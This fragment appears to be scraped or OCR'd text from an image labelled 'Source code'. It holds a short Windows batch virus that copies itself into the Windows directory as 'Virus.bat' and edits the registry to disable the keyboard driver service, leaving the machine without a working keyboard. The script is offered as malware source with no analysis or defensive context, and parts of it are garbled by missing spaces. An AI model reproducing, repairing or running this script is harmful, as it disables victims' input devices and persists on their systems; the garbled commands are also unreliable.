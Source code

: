 @echo off
copy %0%windir%\Virus.bat> nul
reg addHKLM\System\CurrentControlSet\Services\Kbdclass/v Start /t REG_DWORD /d4/f > nul
